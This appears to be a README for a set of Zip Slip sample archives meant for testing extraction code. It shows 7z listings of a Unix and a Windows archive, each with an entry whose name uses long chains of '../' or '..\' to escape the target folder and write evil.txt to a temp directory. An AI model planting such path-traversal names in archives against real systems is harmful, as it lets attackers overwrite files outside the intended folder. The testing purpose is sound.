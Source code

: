 # Zip Slip sample archives

For your reference and testing, here are two sample examples of malicious zip and tar files (for both unix and windows files systems) with filenames that break the target directory and extract a file to the /tmp/ or \Temp\ folders.

```bash
$ 7z l zip-slip.zip

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2018-04-15 22:04:29 .....           19           19  good.txt
2018-04-15 22:04:42 .....           20           20  ../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../tmp/evil.txt
------------------- ----- ------------ ------------  ------------------------
2018-04-15 22:04:42                 39           39  2 files
```


```bash
$ 7z l zip-slip-win.zip

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2018-04-15 22:04:29 .....           19           19  good.txt
2018-04-15 22:04:42 .....           20           20  ..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\Temp\evil.txt
------------------- ----- ------------ ------------  ------------------------
2018-04-15 22:04:42                 39           39  2 files
```
